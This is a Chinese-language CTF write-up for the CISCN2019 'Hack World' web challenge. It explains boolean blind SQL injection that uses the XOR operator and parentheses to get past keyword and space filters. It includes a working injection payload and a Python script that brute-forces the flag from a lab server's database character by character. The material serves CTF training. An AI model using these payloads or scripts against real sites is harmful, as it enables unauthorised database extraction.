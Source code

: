 # \[CISCN2019 华北赛区 Day2 Web1]Hack World

## \[CISCN2019 华北赛区 Day2 Web1]Hack World

## 考点

* 布尔盲注
* 使用() bypass 空格

## wp

首先发现过滤了很多东西，union limit ord and xor information\_schema - & # \* ||\
发现没有过滤 ^ ，尝试输入参数1^0返回正常，1^1返回错误

然后尝试进行注入，输入 0^(ascii(substr((select(database())),1,1))>0) 返回正常，这也说明存在注入。题目也说明flag在flag表的flag字段，写脚本爆破即可。

```python
import requests

url = 'http://808a4f11-2371-4c63-a2f8-cc9d86102282.node3.buuoj.cn/index.php'

# 0^1返回 glzjin wants a girlfriend 
# 0^0返回 false
flag = ''
for i in range(1, 50):
    low = 32
    high = 126
    mid = (low+high)//2
    print(flag)
    
    while low < high:
        payload = f"0^(ascii(substr((select(flag)from(flag)),{i},1))>{mid})"
        # print(payload)
        data = {
            'id': payload
        }
        
        r = requests.post(url=url, data=data)
        # print(r.text)
        if 'glzjin wants a girlfriend' in  r.text:
            low = mid + 1
        if 'Error' in r.text:
            high = mid
            
        mid = (low+high)//2
        
        if low == high:
            flag = flag + chr(low)
            break
    
```
